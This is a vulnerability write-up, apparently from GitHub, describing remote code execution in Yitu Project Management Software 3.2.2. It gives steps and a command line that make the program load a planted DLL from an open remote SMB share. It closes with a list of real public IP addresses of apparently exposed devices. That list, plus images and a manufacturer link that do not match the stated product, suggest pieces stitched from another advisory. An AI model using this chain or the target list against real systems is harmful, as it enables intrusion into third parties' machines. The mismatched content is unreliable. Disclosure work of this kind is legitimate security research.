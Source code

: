 # Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability

## Overview
Manufacturer's address：[(https://www.wondershare.cn/)]
## Vulnerability impact
Yitu Project Management Software 3.2.2
## Vulnerability location
-platformpluginpath  \\172.16.2.88\shared
## Vulnerability details
Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability.Attackers exploit the feature of directories being able to remotely share folders. When launching the qt program, they add the - platformpluginpath parameter to specify that the qt plugin loads the directory, thereby achieving the goal of remote code execution 
## Vulnerability verify
[(http://61.141.114.15:10034/index.htm)]
1.Create a shared folder on Windows, and add everyone to the shared folder security settings
2.Both sharing and advanced sharing require setting everyone full control permissions
![Alt text](image-1.png)
3.Shared password protection turned off
![Alt text](image-2.png)
![Alt text](image-3.png)
![Alt text](image-4.png)
4.Shared machine IP
![Alt text](image-5.png)
5.Verify that the machine opens the shared folder and confirms that there is an imageformats folder under the shared folder, and that there is an exp.dll verification file inside the imageformats folder.Be sure to open it through the resource manager \\The shared folder under 172.16.2.88 does not require account and password verification.
![Alt text](image-6.png)
6.Confirm the installation path for Wanxing Technology's Yitu project management
![Alt text](image-8.png)
7.The default installation path for verifying the machine is "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe".Please refer to the actual path for verifying the machine for details
8.Win+r ->cmd ->Execute the following command (the IP below is based on the actual verified IP of the machine that opened the shared folder, and the name of the shared folder can be modified according to the actual situation if there are no special requirements) "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe" - platformpluginpath \ \ 172.16.2.88\shared.Wait for the program to open and see the calc.exe process pop up
![Alt text](image-9.png)
9.Use the tool to view the launched Yitu project management process and load those DLLs. The ProcessHacker tool is used here
![Alt text](image-10.png)
10.You can see that the exp.dll has been loaded into the remote shared folder under imageformats, and verification has been successful

<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/3b5a0bd1-a3a1-409c-aafa-f1e44257bca8">
<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/cff04fd3-40d0-4b16-ae41-98225501c432">
<img width="416" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/5b0ab660-d01c-4c1d-b5a3-5018d30996ea">
## remaining assets
http://113.116.145.214:10034/switch.htm
http://180.107.158.225:88/switch.htm
http://119.123.77.93:1033/switch.htm
http://61.141.114.15:10034/switch.htm
http://112.242.125.67:2222/switch.htm
http://59.45.111.251:10000/switch.htm
http://61.181.77.26:8091/switch.htm
http://119.123.77.93:1033/switch.htm
http://218.8.101.251:8010/switch.htm
http://112.26.136.90:8890/switch.htm
http://60.165.53.178:8813/switch.htm
http://112.242.125.67:2222/switch.htm
http://60.165.53.178:8812/switch.htm
http://60.165.53.178:8814/switch.htm
